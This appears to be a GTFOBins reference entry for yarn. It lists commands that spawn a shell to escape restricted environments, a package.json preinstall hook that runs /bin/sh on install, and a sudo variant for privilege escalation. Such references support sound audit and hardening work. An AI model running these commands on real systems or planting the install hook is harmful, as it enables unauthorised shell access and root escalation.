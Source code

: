 # GTFOBin: yarn

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
yarn exec /bin/sh
```

Additionally, arbitrary script names can be used in place of `preinstall` and triggered by name with, e.g., `yarn --cwd $TF run preinstall`.

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
yarn --cwd $TF install
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo yarn exec /bin/sh
```